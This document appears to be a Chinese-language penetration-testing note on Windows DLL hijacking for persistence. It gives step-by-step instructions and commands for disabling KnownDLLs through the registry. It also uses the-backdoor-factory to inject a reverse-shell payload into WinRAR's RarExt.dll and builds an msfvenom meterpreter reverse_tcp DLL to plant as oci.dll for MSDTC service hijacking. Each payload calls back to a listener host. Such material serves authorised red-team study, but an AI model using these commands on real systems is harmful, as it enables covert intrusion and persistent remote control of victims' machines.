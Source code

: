   #### 劫持1
	注册表
	HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SessionManager\ExcludeFromKnownDlls下添加 "lpk.dll"(若无，自己创建)
	ExcludeFromKnownDlls可使KnownDLLs失效
	需要重新启动电脑
	查找可劫持的DLL：
	1.启动程序
	2.使用Process Explorer查看该应用程序启动后加载的DLL。
	3.从已经加载的DLL列表中，查找在上述“KnownDLLs注册表项”中不存在的DLL。
	HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\KnownDLLs
	4.编写第三步中获取到的DLL的劫持DLL。
	5.将编写好的劫持DLL放到该应用程序目录下，重新启动该应用程序，检测是否劫持成功。
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/467.png)

	Explorer.exe启动调用winrar文件夹的RarExt.dll
	Msf监听
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/468.png)

	复制dll文件到the-backdoor-factory文件夹中，加载恶意dll进原dll
	>python backdoor.py -f RarExt.dll -s reverse_shell_tcp_inline -P 12138 -H 192.168.0.107 指定为kali监听的IP和端口
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/469.png)

	生成好的dll在backdoored文件夹，传入靶机中，替换原dll文件，最好把原dll保存备份。
	每次打开windows资源管理器的时候，即可上线。重启可维持
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/470.png)
  #### 劫持2
	使用
	https://github.com/coca1ne/DLL_Hijacker
	https://github.com/git20150901/DLLHijack_Detecter
	查看要劫持的DLL的函数导出表，会直接生成cpp源码，重编译指向恶意代码
	DLLHijack_Detecter可查看程序加载的不在KnownDLLs中的DLL
  #### MSDTC服务劫持
	服务名称MSDTC,显示名称Distributed Transaction Coordinator
	对应进程msdtc.exe,位于%windir%system32
	C:\Windows\System32\wbem\
	服务启动搜索注册表位置计算机\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\MSDTC\MTxOCI
	#msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.51 LPORT=4444 -f dll -o /var/www/html/oci.dll
	Oci.dll放入c:\windows\system32\
	重启服务即可
	>taskkill /f /im msdtc.exe
  #### Rattler
	自动化查找可劫持的DLL
	https://github.com/sensepost/rattler
	使用
	>Rattler_x64.exe calc.exe 1
	会列出可被劫持的DLL
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/471.png)

	按程序读取DLL位置顺序，把恶意DLL放入程序同目录后，执行程序即可。
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/472.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/473.png)